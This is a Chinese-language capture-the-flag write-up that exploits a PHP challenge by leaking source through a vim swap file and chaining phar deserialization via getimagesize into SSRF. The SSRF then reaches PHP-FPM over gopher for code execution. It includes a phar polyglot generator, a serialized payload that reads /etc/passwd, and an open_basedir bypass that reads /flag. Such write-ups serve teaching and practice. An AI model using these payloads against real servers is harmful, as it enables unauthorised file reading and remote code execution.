


# phar matches everything
## 考察知识点：
### 1.vim swp文件，导致源码泄露
### 2.getimagesize触发phar序列化
### 3.Gopher:// 进行SSRF

#### 1.题目说phar，报错又出现了getimagesize函数，说明思路应该是：getimagesize触发phar序列化



#### 2.序列化题目，一般都会提示源码，先尝试得到源码的思路

#### 2.1 鼠标右键查看网页


只发现两个php文件，没有源码

依次访问，也没有什么异常

#### 2.2 得到源码的思路：
##### 2.2.1 鼠标右键查看
##### 2.2.2 文件包含，伪协议读取
##### 2.2.3 备份文件，源码泄露（bak,www.zip....
##### 2.2.4 编辑器，系统...文件泄露（.git,.DS_Store,.swp

该题有提示：i hate vim

**2.2.1 所以推测是swp泄露**

**2.2.2 依次访问：.upload.php.swp,.catchmime.php.swp...得到catchmime.php.swp文件。**

`vim -r chmime.php.swp`得到源码

```
<?php
class Easytest{
    protected $test;
    public function funny_get(){
        return $this->test;
    }
}

class Main {
    public $url;
    public function curl($url){
        $ch = curl_init();  
        curl_setopt($ch,CURLOPT_URL,$url);
        curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);
        $output=curl_exec($ch);
        curl_close($ch);
        return $output;
    }

public function __destruct(){
        $this_is_a_easy_test=unserialize($_GET['careful']);
        if($this_is_a_easy_test->funny_get() === '1'){
            echo $this->curl($this->url);
        }
    }    
}

if(isset($_POST["submit"])) {
    $check = getimagesize($_POST['name']);
    if($check !== false) {
        echo "File is an image - " . $check["mime"] . ".";
    } else {
        echo "File is not an image.";
    }
}
?>

```

#### 3.题目提示phar

catchmime.php文件含有gitimage可配合phar造成反序列化

curl()可造成ssrf漏洞

#### 所以此时该题的思路就是生成phar文件，上传到服务器，ckeck mime file检查上传的文件类型，触发反序列化，覆盖Main类中的url变量，造成ssrf漏洞

生成phar文件：

```
<?php
class Main {
    public $url='file:///etc/passwd';
    public function curl($url)
    {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        $output = curl_exec($ch);
        curl_close($ch);
        return $output;
    }
}

$jpeg_header_size =
    "\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00\xff\xfe\x00\x13".
    "\x43\x72\x65\x61\x74\x65\x64\x20\x77\x69\x74\x68\x20\x47\x49\x4d\x50\xff\xdb\x00\x43\x00\x03\x02".
    "\x02\x03\x02\x02\x03\x03\x03\x03\x04\x03\x03\x04\x05\x08\x05\x05\x04\x04\x05\x0a\x07\x07\x06\x08\x0c\x0a\x0c\x0c\x0b\x0a\x0b\x0b\x0d\x0e\x12\x10\x0d\x0e\x11\x0e\x0b\x0b\x10\x16\x10\x11\x13\x14\x15\x15".
    "\x15\x0c\x0f\x17\x18\x16\x14\x18\x12\x14\x15\x14\xff\xdb\x00\x43\x01\x03\x04\x04\x05\x04\x05\x09\x05\x05\x09\x14\x0d\x0b\x0d\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14".
    "\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\xff\xc2\x00\x11\x08\x00\x0a\x00\x0a\x03\x01\x11\x00\x02\x11\x01\x03\x11\x01".
    "\xff\xc4\x00\x15\x00\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x08\xff\xc4\x00\x14\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xda\x00\x0c\x03".
    "\x01\x00\x02\x10\x03\x10\x00\x00\x01\x95\x00\x07\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x05\x02\x1f\xff\xc4\x00\x14\x11".
    "\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20".
    "\xff\xda\x00\x08\x01\x02\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x06\x3f\x02\x1f\xff\xc4\x00\x14\x10\x01".
    "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x21\x1f\xff\xda\x00\x0c\x03\x01\x00\x02\x00\x03\x00\x00\x00\x10\x92\x4f\xff\xc4\x00\x14\x11\x01\x00".
    "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda".
    "\x00\x08\x01\x02\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x10\x1f\xff\xd9";

$phar = new Phar("phar3.phar");
$phar->startBuffering();
$phar->addFromString("test.txt","test");
$phar->setStub($jpeg_header_size." __HALT_COMPILER(); ?>");
$o = new Main();
$phar->setMetadata($o);
$phar->stopBuffering();
```

#### 4.上传pahr文件

但是，只允许上传jpeg|png|gif文件，这里更改文件后缀名为gif，文件头，生成phar文件时已经添加


#### 5.触发反序列化

```
    public function __destruct()
    {
        $this_is_a_easy_test = unserialize($_GET['careful']);
        if ($this_is_a_easy_test->funny_get() === '1') {
            echo $this->curl($this->url);
        }
    }
```
**5.1 触发反序列化，调用__destruct()函数，还需要再次触发，序列化，绕过限制**

test.php生成序列化内容

```
<?php

class Easytest
{
    protected $test='1';

    public function funny_get()
    {
        return $this->test;
    }
}
//
$easyTest=new Easytest();

echo urlencode(serialize($easyTest));
```


**5.2 所以payload时url需要添加：**

`?careful=O%3A8%3A%22Easytest%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00test%22%3Bs%3A1%3A%221%22%3B%7D`


**5.3 phar:// 结合getimagesize()触发phar序列化**


#### 6.ssrf 探测

分别访问/etc/hosts,/proc/net/arp


探测到三台内网主机：

10.0.0.1，10.0.0.2，10.0.0.3

#### 7.访问10.0.0.3主机时


此时可知，服务器用的是PHP-FPM

#### 8.ssrf+php-fpm想到SSRF+Gopher来造成RCE

参考文章：
https://evoa.me/index.php/archives/52/#toc-SSRFGopher


参考链接生成exp

**8.1 将生成的exp加入phar文件中**


**8.2 注意需要将127.0.0.1改为10.0.0.3，10.0.0.3上面运行着php-fpm**


**8.3 代码执行：访问phpinfo();界面**


**8.4 disable_function禁用很多函数**

最终构造：
```
mkdir('/tmp/fuck');chdir('/tmp/fuck');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');print_r(scandir('/'));readfile('/flag');
```


**8.5 将生成的exp，加入到phar文件中，上传到靶机**

**8.6 访问即可得到flag**


